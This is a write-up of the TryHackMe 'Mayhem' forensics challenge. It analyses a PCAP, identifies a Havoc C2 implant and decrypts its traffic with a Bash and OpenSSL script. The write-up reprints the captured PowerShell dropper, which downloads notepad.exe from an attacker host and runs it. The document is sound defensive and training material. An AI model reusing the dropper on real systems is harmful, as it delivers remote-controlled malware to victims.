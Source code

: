```yaml
---
layout: default
title: Mayhem CTF Write-Up
---
```


# 🕵️‍♂️ Mayhem CTF Forensics Tryhackme

Ever cracked open a PCAP and uncovered a full-on malware operation hiding in plain sight? That’s exactly what this challenge was all about. From suspicious PowerShell scripts to sneaky HTTP traffic and full Havoc C2 decryption, this forensic journey had it all. I’ll walk you through how I broke it down — from protocol analysis to automating the entire decryption process with a bit of Bash magic. Let’s dive into the chaos of Mayhem.

![alt text](https://raw.githubusercontent.com/gobloo/TryhackmeWriteups/refs/heads/main/Mayhem/image-12.png)


## 📘 Challenge Overview

**Room Link:** [Mayhem](https://tryhackme.com/room/mayhemroom)

> Beneath the tempest's roar, a quiet grace,
> Mayhem's beauty in a hidden place.
> Within the chaos, a paradox unfolds,
> A tale of beauty, in disorder it molds.

---

## 🔍 Initial Network Analysis

1. Opened the PCAP file in **Wireshark**.
![alt text](https://raw.githubusercontent.com/gobloo/TryhackmeWriteups/refs/heads/main/Mayhem/image.png)
2. Navigated to **Statistics → Protocol Hierarchy** to understand the traffic distribution.
![alt text](https://raw.githubusercontent.com/gobloo/TryhackmeWriteups/refs/heads/main/Mayhem/image-1.png)
3. Noticed a large amount of **HTTP traffic** — a potential channel for C2.

---

## 📦 Suspicious File Transfers

Following the most active HTTP streams revealed:

- Two files were transferred:
  - `install.ps1`
  - `notepad.exe`
![alt text](https://raw.githubusercontent.com/gobloo/TryhackmeWriteups/refs/heads/main/Mayhem/image-2.png)
The PowerShell script `install.ps1` initiated the download of `notepad.exe`.
![alt text](https://raw.githubusercontent.com/gobloo/TryhackmeWriteups/refs/heads/main/Mayhem/image-3.png)
Using **Follow HTTP Stream** in Wireshark:
- Confirmed the download behavior.
- Exported both files from the PCAP.
![alt text](https://raw.githubusercontent.com/gobloo/TryhackmeWriteups/refs/heads/main/Mayhem/image-4.png)
![alt text](https://raw.githubusercontent.com/gobloo/TryhackmeWriteups/refs/heads/main/Mayhem/image-6.png)
- Rewrited `Install.ps1`
    ```powershell
    $URL = "http://10.0.2.37:1337/notepad.exe";
    $Download_PATH = "C:\Users\paco\Downloads\notepad.exe";
    Invoke-WebRequest -Uri $URL -OutFile $Download_PATH;
    $downloader = New-Object System.Net.WebClient;
    $downloader.DownloadFile($URL, $Download_PATH);
    Start-Process -Filepath $Download_PATH
    ```
---

## 🔥 Malware Detection

After extraction:

- Generated the hash of `notepad.exe`.

    ![alt text](https://raw.githubusercontent.com/gobloo/TryhackmeWriteups/refs/heads/main/Mayhem/image-7.png)

- Checked the hash on a **Threat Intelligence Platform** (e.g., VirusTotal).

    ![alt text](https://raw.githubusercontent.com/gobloo/TryhackmeWriteups/refs/heads/main/Mayhem/image-8.png)

**Result:**  
The file was confirmed to be malicious — identified as a **Havoc C2**.

---

## 🧠 Research & C2 Decryption

Conducted research and found:

- An open-source **Havoc C2** repository on GitHub - [Havoc Implementation](https://github.com/HavocFramework/Havoc)
- Documentation explaining the encryption logic (AES-based) - [Havoc Forensics](https://www.immersivelabs.com/resources/blog/havoc-c2-framework-a-defensive-operators-guide)
- A decryption script included in the repo - [Havoc C2 Forensics Github Tool](https://github.com/Immersive-Labs-Sec/HavocC2-Forensics)

### Steps Taken:

- Studied how the decryption routine works.
- Extracted **AES keys** from the traffic the first request after notepad.exe
![alt text](https://raw.githubusercontent.com/gobloo/TryhackmeWriteups/refs/heads/main/Mayhem/magic_bytes-1.png)

    ```bash
    [+] Key: 946cf2f65ac2d2b868328a18dedcc296cc40fa28fab41a0c34dcc010984410ca
    [+] IV: 8cd00c3e349290565aaa5a8c3aacd430
    ```

- Used **CyberChef** to manually decode the first 4 C2 packets.
    ![alt text](https://raw.githubusercontent.com/gobloo/TryhackmeWriteups/refs/heads/main/Mayhem/image-9.png)

### Observations:

- After few decryption of traffic, I noticed that each command from the attacker was followed by two responses:
  - An `HTTP/Response`
  - Two `HTTP/Request` packets
- Packets appeared **out of order**, requiring manual reassembly for accurate decryption.

---

## 🛠️ Automation via Bash Script

To automate and simplify the process:

- I Wrote a **Bash script** to:
  - Automatically extract AES keys
    ```bash
        # PCAP file to analyze
        PCAP="traffic.pcapng"

        # Function to parse HAVOC request header
        parse_header() {
        local hex="$1"

        # Extract fields based on byte sizes (in hex characters)
        length_field="${hex:0:8}"       # 4 bytes
        magic_byte="${hex:8:8}"         # 4 bytes
        agent_id="${hex:16:8}"          # 4 bytes
        ignore="${hex:24:16}"           # 8 bytes
        declare -g AES_KEY="${hex:40:64}"  # 32 bytes
        declare -g AES_IV="${hex:104:32}"  # 16 bytes

        length_dec=$((16#$length_field))

        if [[ "$magic_byte" == "deadbeef" ]]; then
            echo -e "\n✅ Magic bytes matched! - ${RED}Havoc has been detected${NC}\n"
            echo -e "  [-] Length Field : ${length_dec}"
            echo -e "${GREEN}  [-] Magic Bytes  : ${magic_byte}${NC}"
            echo -e "  [-] Agent ID     : ${agent_id}"
            echo -e "${RED}  [-] AES Key      : ${AES_KEY}"
            echo -e "  [-] AES IV       : ${AES_IV}${NC}"
        else
            echo "❌ Magic bytes mismatch (expected deadbeef, got $magic_byte)"
        fi
        }

    ```
  - Reassemble HTTP packet streams in correct order and map the reuqets with its answers and delete the empty packets.
    - the request content length != 20 and delete the 40 first bits
        ```bash
            echo "${REQUEST_1:40}" | xxd -r -p | decrypt
        ```
    - The response content length != 12 and delte the 24 first bits
        ```bash
            echo "${RESPONSE:24}" | xxd -r -p | decrypt
        ```
  - Decrypt payloads using embedded decryption logic (compatible with CyberChef or OpenSSL) 
    ```bash
    # Function to decrypt payloads using OpenSSL AES-256-CTR
    decrypt() {
    openssl enc -d -aes-256-ctr -K "$AES_KEY" -iv "$AES_IV" 2>/dev/null
    }
    ```

This enabled complete C2 traffic decryption.
    
![alt text](https://raw.githubusercontent.com/gobloo/TryhackmeWriteups/refs/heads/main/Mayhem/image-10.png)

![alt text](https://raw.githubusercontent.com/gobloo/TryhackmeWriteups/refs/heads/main/Mayhem/image-11.png)
---

## ✅ Outcome

Successfully:

- Identified malware deployment via `PowerShell`
- Detected and classified the payload as `Havoc C2`
- Decrypted the `command-and-control` traffic

---

## 🧰 Tools Used

- `Wireshark`
- `tshark`
- `CyberChef`
- `Bash`
- `VirusTotal`
- GitHub (Havoc C2 source)

---

## 📂 Artifacts

- `install.ps1`  - Sha1 hash: `2628320d154dff702ca2a4674af0432f6f08161a`
- `notepad.exe` (Havoc Payload)  - SHA1 Hash: `cdbab09ab27234cbd0739c438f4a96f6f7b53f50`
- Extracted AES Keys:
    - AES Key: `946cf2f65ac2d2b868328a18dedcc296cc40fa28fab41a0c34dcc010984410ca`
    - IV Key: `8cd00c3e349290565aaa5a8c3aacd430`
- Decrypted C2 traffic  
- Bash automation script

---

## ✍️ Notes

- The decryption technique leveraged public information about Havoc’s encryption method.
- HTTP traffic order was inconsistent — proper stream ordering was key to successful decoding.

---

> 🏁 *Flag successfully retrieved through decrypted traffic.*
